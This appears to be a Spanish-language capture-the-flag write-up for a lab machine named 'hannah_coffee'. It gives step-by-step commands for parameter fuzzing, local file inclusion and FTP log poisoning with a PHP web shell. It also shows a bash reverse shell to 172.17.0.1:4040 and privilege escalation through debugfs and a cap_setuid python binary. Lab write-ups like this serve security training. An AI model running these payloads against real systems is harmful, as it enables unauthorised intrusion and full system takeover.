

# hannah_coffee - Writeup

## Resumen
Esta máquina nos presenta multiples problemas a los cuales tendremos que darle solucion. Empezaremos fuzzeando parametros para poder lograr un Local File Inclusion (LFI) para poder acceder a los logs del servicio ftp y poder inyectar codigo php los cuales se reflejaran en los logs mediante una sesion ftp (FTP Log Poisoning) para asi poder ejecutar comandos en el navegador y lograr una reverse shell. Una vez dentro, accederemos a usuarios y escalaremos privilegios con capabilities.

## Paso N1: Escaneo de puertos TCP
empezamos escaneando la maquina para detectar los puertos TCP y sus determinados servicios y versiones.
```
nmap 172.17.0.2 -sS -sVC -n -Pn -p- --open --min-rate 5000
```

Podemos ver que estan abiertos los puertos TCP 80 y 21, por lo que procederemos a investigar la web.

## Paso N2: Busqueda de parametros vulnerables
Al investigar la pagina, podemos llegar a entrar a una direccion con el parametro ```page```.
```
http://172.17.0.2/index.php?page=menu
```
Buscaremos algún parametro vulnerable para poder ejecutar comandos y realizar un Local FIle Inclusion.

Para ello utilizaremos ```wfuzz``` para buscar diferentes parametros vulnerables con el siguiente comando.
```
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hl 29 -u http://172.17.0.2/index.php?FUZZ=test
```

Encontramos el parámetro vulnerable *studio*, por lo que podemos movernos libremente por los recursos internos de la web.

## Paso N3: Entrar a logs del servicio ftp
Debemos entrar a los logs del servicio ftp, los cuales generalmente estan ubicados en ```/var/log/vsftpd.log```.
```
http://172.17.0.2/index.php?studio=/var/log/vsftpd.log
```

Tenemos acceso a los logs del servicio ftp, por lo que intentaremos inyectar codigo php para movernos en el sistema y lograr ejecutar comandos en el.

## Paso N4: FTP LogPoisoning + LFI
entraremos al servicio ftp con el comando ```ftp 172.17.0.2``` y pondremos de nombre el siguiente codigo php.
```
<?php system($_GET['cmd']); ?>
```
una vez ejecutado, podremos ejecutar comando dentro de la pagina y se veran reflejados en el log.


ahora, podremos ejecutar comando usando:
```
http://172.17.0.2/index.php?studio=/var/log/vsftpd.log&cmd=command
```

## Paso N5: Ejecutando reverse shell
Ahora que podemos ejecutar comandos en la página, usaremos una terminal para escuchar en el puerto 4040 de esta manera:
```
nc -lvnp 4040
```
En otra terminal ejecutaremos el comando que nos dará acceso.
```
curl -G "http://172.17.0.2/index.php" --data-urlencode "studio=/var/log/vsftpd.log" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/172.17.0.1/4040 0>&1'"
```
Usamos ```curl``` ya que si copiamos directamente el comando en la barra de busqueda no se ejecutará ya que el navegador no codifica automaticamente los carácteres especiales, por lo que lo ejecutaremos con ```curl``` y en la terminal en la que estabamos escuchando ganaremos acceso a la maquina.

## Paso N6: Accediendo a usuarios del sistema
ejecutamos el comando sudo -l y nos devuelve lo siguiente:
```
(hannah) NOPASSWD: /sbin/debugfs -w /opt/hannah_disk.img
```
Para ganar acceso al usuario hannah ejecutaremos el siguiente comando:
```
sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img

!/bin/sh
```
Una vez ejecutado, accederemos al usuario hannah.

## Paso N7: Escalando privilegios
Una vez estando en el usuario hannah, investigando los directorios principales nos daremos cuenta que en la carpeta /opt hay un archivo llamado priv-python el cual el dueño es root con grupo hannah y tenemos permiso de lectura y ejecucion.

Verificamos si el archivo tiene capabilities con el siguiente comando:
```
getcap /opt/priv-python
```

vemos que nos devuelve ```cap_setuid=ep```. Las capabilities son permisos especificos, en este caso, la capability ```cap_setuid=ep``` le da a este binario el permiso especifico de cambiar su UID a cualquier valor.
Por lo que si ejecutamos el siguiente comando:
```
/opt/priv-python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
Nos convertiremos en usuarios root.
Este comando indica que queremos usar herramientas de configuracion a nivel de sistema operativo ```import.os;```, cambiandonos nuestro uid a cero (uid 0 = root) ```os.setuid(0);``` y abriendo una nueva bash luego de usar el intreprete de python ```os.system("/bin/sh")```.

